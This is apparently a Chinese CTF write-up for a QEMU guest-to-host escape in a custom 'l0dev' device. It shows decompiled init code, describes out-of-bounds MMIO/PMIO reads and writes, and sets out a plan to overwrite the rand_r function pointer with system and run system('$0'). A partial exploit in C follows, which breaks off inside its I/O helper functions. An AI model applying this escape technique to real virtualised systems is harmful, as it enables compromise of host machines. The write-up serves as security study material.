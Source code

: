 ### vulnerability
非常明显的越界读写，并且给了函数指针，其中 State 结构体大概是这样初始化的   

```c
void *__fastcall instance_init(const char ****a1)
{
  const char ****v1; // rax

  v1 = sub_7F810F(a1, (__int64)"l0dev", (__int64)"../qemu-7.0.0/hw/misc/l0dev.c", 0xE5u, (__int64)"l0dev_instance_init");
  v1[423] = (const char ***)&srand;   // 0xd38
  v1[424] = (const char ***)&rand;
  v1[425] = (const char ***)&rand_r; // 0xd48  
  return memset((char *)v1 + 0xC34, 0, 0x100uLL); // this is buf
}
```

- mmio_read 是对 (*(_DWORD *)(opaque + 0xA00) + addr) 的 offset 读，要求是 addr.round_down_8 + size <= 0x100   

- pmio_read 是对 addr 的 offset 读，要求是 addr.round_down_8 + size <= 0x100     

- mmio_write 检测 addr.round_down_8 + size <= 0x100 然后 addr = 0x40 时，调用 rand_r(val) ; 为 0x80时，*(_DWORD *)(opaque_1 + 0xA00) = val if val<=0x100ull 其他情况下 写 size 字节的 val 到 addr + buf    
pmio_write 在**完全没检查的情况下** 如果之前 pmio 读过一次 666 就写 val 到 (*(_DWORD *)(opaque_1 + 0xA00) + addr);否则检查 addr.round_down_8 + size <= 0x100 然后往 addr 的 buf offset 拷贝 size 个字节的 val   

然后就是覆写 "rand_r" 指针为 `system`，执行 `system("$0")` 即可完成逃逸     

### exp
```c
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/io.h>
unsigned char* iomem;

void die(const char* msg)
{
	perror(msg);
	exit(-1);
}

void iowrite(uint64_t addr, uint64_t value)
{
	*((uint64_t*)(iomem + addr)) = value;
}

uint64_t ioread(uint64_t addr)
{
	return *((uint64_t*)(iomem + addr));
}

void iowrite32(uint64_t addr, uint32_t value)
{
	*((uint32_t*)(iomem + addr)) = value;
}

uint32_t ioread32(uint64_t addr)
```